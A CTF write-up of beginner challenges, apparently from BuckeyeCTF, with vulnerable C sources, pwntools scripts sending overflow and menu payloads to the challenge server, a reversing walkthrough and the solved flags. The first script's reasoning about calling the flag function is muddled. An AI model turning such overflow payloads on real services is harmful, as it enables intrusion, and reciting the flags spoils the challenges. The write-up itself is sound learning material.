




Below is my Writeup for challenges that I managed to solve together with my [team](https://ctftime.org/team/206364)

#### Beginner (Pwn)
This was a straight forward pwn challenge and quite easy. We are given a C file:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>


void print_flag(void) {
    FILE* fp = fopen("flag.txt", "r");
    char flag[100];
    fgets(flag, sizeof(flag), fp);
    puts(flag);
}


int main(void) {
    // Ignore me
    setbuf(stdout, NULL);

    char buf[50];
    char joke[5][200] = {"Why don't scientists trust atoms? Because they make up everything!\n", "What do you call a fish with no eyes? Fsh!\n",
                    "Parallel lines have so much in common. It's a shame they'll never meet.\n",
                    "Why don't skeletons fight each other? They don't have the guts.\n",
                    "Did you hear about the mathematician who's afraid of negative numbers? He'll stop at nothing to avoid them!\n"};
    char weather[5][200] = {"Sunny and clear skies with a gentle breeze, making it a perfect day for outdoor activities.\n",
                        "Partly cloudy with a chance of scattered showers in the afternoon, so you might want to carry an umbrella just in case.\n",
                        "Overcast and cool with a persistent drizzle, making it a cozy day to stay indoors and enjoy a good book.\n",
                        "Hot and humid, with temperatures soaring into the high 90s (°F), so be prepared for a scorching day.\n",
                        "Unpredictable with rapidly changing weather patterns, including occasional thunderstorms and gusty winds, so stay alert if you plan to be outside.\n"};
    srand(time(0));
    int num = rand()%10000;
    char guess[50] = "0";
    printf("Enter the number of the menu item you want:\n");
    printf("1: Hear a joke\n2: Tell you the weather\n3: Play the number guessing game\n4: Quit\n");
    fgets(buf, 50, stdin);
    if(strcmp(buf, "0\n")==0){
        printf("That's not an option\n");
        exit(0);
    }
    

	if(atoi(buf) ==1){
	    printf(joke[(rand()%5)]);
	    exit(0);
    }
	else if(atoi(buf) == 2){
	    printf(weather[(rand()%5)]);
	    exit(0);
    }
	else if(atoi(buf) ==3){
        while(num!=atoi(guess)){
	        printf("Guess the number I'm thinking of: ");
            fgets(guess, 50, stdin);
            if(atoi(guess)<num){
                printf("Guess higher!\n");
            }
            else if(atoi(guess)>num){
                printf("Guess lower!\n");
            }
        }
	    exit(0);
    }
	else if(atoi(buf)==4){
	    exit(0);
    }
	else if(atoi(buf)>4){
	    printf("That's not an option\n");
	    exit(0);
    }

    print_flag();

    return 0;
}
```
We see a relatively easy program that has 4 case functions(for a lack of better word) i.e joke,weather guess and quit. We also see a print_flag function which opens flag.txt. So we need a way to execute the flag function. Let's run the program to see what it does.

. 
We see the 4 options, so when we try to input a number that is not on the options say 0, definitely ```else if(atoi(buf)>4)
	    printf("That's not an option\n");
	    exit(0);``` 
will be called. So what prevents us from just calling the flag function directly? Absolutely nothing.
Here is my solve script which was generated when I patched the binary using pwninit, but this can just be done with one command, sigh!

```python
#!/usr/bin/env python3
# Author: 0xEpitome

from pwn import *

exe = ELF("./menu_patched", checksec=False)

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("chall.pwnoh.io", 13371)

    return r


def main():
    r = conn()
    r.recvuntil(b"4: Quit")
    # The flag function can be gotten using gdb or ghidra
    flag = p64(0x0010152)
    r.sendline(flag)
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
# bctf{y0u_ARe_sNeaKy}
```
Run the script and you get the flag.


#### Starter Buffer (Pwn)

This was another pretty easy challenge, the creators of this CTF were generous enough to provide the source code of the challenges.
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void print_flag(void) {
    FILE* fp = fopen("flag.txt", "r");
    char flag[100];
    fgets(flag, sizeof(flag), fp);
    puts(flag);
}

int main(void) {
    // Ignore me
    setbuf(stdout, NULL);

    int flag = 0xaabdcdee;
    char buf[50] = {0};
	printf("Enter your favorite number: ");
	fgets(buf, 0x50, stdin);

    if(flag == 0x45454545){
        print_flag();
    }
    else{
        printf("Too bad! The flag is 0x%x\n", flag);
    }

    return 0;
}
```
In basic explanation of the code, it has 2 function that is print_flag(which is our goal) and main function. The main function sets an integer flag to 0xaabdcdee and initializes a buffer of 50 bytes. Then it asks a basic question of entering your favorite number. Then it does fgets of 0x50(80 bytes). There vuln there is buffer overflow since we can add more bytes than the declared ones which were 50 bytes. Next is an if statement which has the flag set to a value and if that value is called then it calls the print_flag function which has our flag. So to develop our exploit:

```python

from pwn import *

binary = context.binary = ELF("./buffer", checksec=False)
# target = process()
target = remote("chall.pwnoh.io", 13372)

buf = b"A"*50 + b"B"*8 
flag = p64(0x45454545)
payload = buf + flag
target.recvuntil(b"number:")
target.sendline(payload)
target.interactive()

# flag: bctf{wHy_WriTe_OveR_mY_V@lUeS}
``` 
We first write 50 bytes to the buffer then 8 more to reach rbp address then we can enter the desired flag address. 


#### Currency Converter
We are provided with a converter.jar file. Opening this with jd-gui and going to converter class, we get the flag.


#### 8ball (Rev)
This was an easy challenge, we are provided with a zip file, on extracting it we get an executable 8ball. On running the program;
. So next step is ghidra. Here is the decompiled code:
```C

undefined8 main(int param_1,char **param_2)

{
  int iVar1;
  time_t tVar2;
  char *pcVar3;
  long lVar4;
  char **ppcVar5;
  char **ppcVar6;
  byte bVar7;
  char *local_168 [41];
  int local_1c;
  ulong local_18;
  int local_c;
  
  bVar7 = 0;
  setvbuf(stdout,(char *)0x0,2,0);
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  if (param_1 != 2) {
    puts("Every question has answer... if you know how to ask");
    printf("Go ahead, ask me anything.\n",*param_2);
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  local_c = 0;
  iVar1 = strcmp(*param_2,"./magic8ball");
  if (iVar1 == 0) {
    puts("Why, I guess you\'re right... I am magic :D");
    local_c = 1;
  }
  ppcVar5 = &PTR_s_Outlook_not_so_good._004024a0;
  ppcVar6 = local_168;
  for (lVar4 = 0x28; lVar4 != 0; lVar4 = lVar4 + -1) {
    *ppcVar6 = *ppcVar5;
    ppcVar5 = ppcVar5 + (ulong)bVar7 * -2 + 1;
    ppcVar6 = ppcVar6 + (ulong)bVar7 * -2 + 1;
  }
  puts("You asked:");
  msleep(0,500);
  printf("\"%s\"\n",param_2[1]);
  msleep(1,0);
  printf("Hmmm");
  msleep(1,0);
  putchar(0x2e);
  msleep(1,0);
  putchar(0x2e);
  msleep(1,0);
  putchar(0x2e);
  msleep(1,0);
  puts(".");
  msleep(2,0);
  if ((local_c != 0) && (pcVar3 = strstr(param_2[1],"flag"), pcVar3 != (char *)0x0)) {
    puts("Why yes, here is your flag!");
    print_flag();
    return 0;
  }
  local_18 = 0x28;
  iVar1 = rand();
  local_1c = (int)((ulong)(long)iVar1 % local_18);
  puts(local_168[local_1c]);
  return 0;
}
```
The most basic explanation of this code, there is a part in the code where local c is set to 0 then ivarl is set to strcmp "./magicball". here is point 1, the way I understood this was, we need to change the name for 8ball to magic8ball that is the first conditon the other condition was, we need a value like "flag" when running the file so that it can execute the flag function.

```bash
./magic8ball "please I need the flag" 
```



That's all for me, hope you enjoyed my lengthy writeups xD.
